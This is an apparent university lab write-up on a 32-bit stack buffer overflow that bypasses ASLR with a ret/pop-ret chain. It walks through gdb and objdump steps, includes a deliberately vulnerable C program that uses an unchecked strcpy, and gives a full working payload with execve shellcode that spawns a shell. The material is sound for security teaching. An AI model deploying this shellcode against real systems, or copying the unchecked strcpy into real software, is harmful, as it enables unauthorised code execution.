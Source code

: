 # Lab4 - Buffer overflow attack(turn on ASLR, turn off NX), 

## !! Some images are from the course lecture files !!

## Overview
+ If ASLR is off, we can find out exact address of the user input.
+ But, with ASLR is on, it's really hard to get exact address of the stack. Because it changes whenever executing.
+ When calling a function with an user input, there should be the input argument in the stack frame. 
+ If we can found the address of the argument in the stack, and then we can use that address to execute our malicious code.

## Payload
Payload = shellcode + alignment + &ret*N + &pop-ret

## Before get started
+ First, compile the source at the bottom of this page like below.
```
gcc -g -m32 -z execstack -fno-stack-protector ans_check6.c -o ans_check6
```
+ Second, make sure the ASLR option is turned on . The value should be 1 or 2.(Not 0)
```
cat /proc/sys/kernel/randomize_va_space
```

## Steps
1. Find out where the break points are. There are two break points. Before calling strcpy and after calling.(line number 12 and 14)
2. Run gdb and set break points.
3. Run with the random argument you can notice.(Run like this in gdb. run 33333333)
4. Find the return address and a parameter from the stack using x/72xw $esp.
5. If you investigate stack frame further, you can find exact same address upper portion in the stack frame. Why? because main function call also resides in the stack frame and it also has input arguments.(These are argc, argv)
6. Now, you can caculate how many bytes do we need to overwrite up until the main argv. If we can reach to that point, we may execute main function's argument strings(It is a malicous code)
7. In the image below, we are going to overwrite from Number 1 to Number 5. But What are we going to write?
8. Overwrite the address of 'ret' and 'pop-ret' instruction up until the second address! About finding out the address of 'ret' and 'pop-ret' is explained below

## What is 'ret' and 'pop-ret'
+ 'ret' pops up the top of the stack and shrink the stack point(esp)
+ 'pop-ret' is similar to 'ret' and it pops one more time. 
+ How to find 'ret' and 'pop-ret'? In the program there should be several ret and pop-ret instruction itself.
```
objdump -D ans_check6 | less
objdump -D ans_check6 | grep -B3 ret | grep -A1 pop
```
## Figure out how many bytes do we need to fill up
![howto3](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto3.png)

## The payload I use
```
./ans_check6 $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90'+'\x21\x86\x04\x08'*55+'\x91\x83\x04\x08'")
```

## Result of getting a new shell 
![howto4](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto4.png)


## Our stack frame
![howto1](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto1.png)

## Our strategy
![howto2](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto2.png)


## After injecting ret & pop-ret
![howto5](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto5.png)


## ans_check6.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[34];
  printf("check_answer.ans is at address %p\n", ans);
  printf("check_answer.ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {
  printf("main:%p\n", main);
  printf("check_answer:%p\n", check_answer);
  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  printf("main.argc is at address %p\n", &argc);
  printf("main.argv[0] is at address %p\n", argv[0]);
  printf("main.argv[1] is at address %p\n", argv[1]);
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}

```
